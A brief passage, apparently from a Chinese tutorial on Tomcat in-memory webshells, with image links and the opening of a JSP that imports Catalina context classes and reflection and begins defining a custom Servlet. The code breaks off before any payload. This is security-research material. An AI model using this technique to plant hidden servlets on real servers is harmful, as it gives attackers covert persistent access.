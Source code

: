 ![image.png](Tomcat内存马基础入门.assets/2023_05_19_10_26_54_EvBDr9w4.png)
![image.png](Tomcat内存马基础入门.assets/2023_05_19_10_26_54_sKlxzvAL.png)
### JSP
```java
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%@ page import = "org.apache.catalina.core.ApplicationContext"%>
<%@ page import = "org.apache.catalina.core.StandardContext"%>
<%@ page import = "javax.servlet.*"%>
<%@ page import = "java.io.IOException"%>
<%@ page import = "java.lang.reflect.Field"%>


<%
  class ServletDemo implements Servlet{
```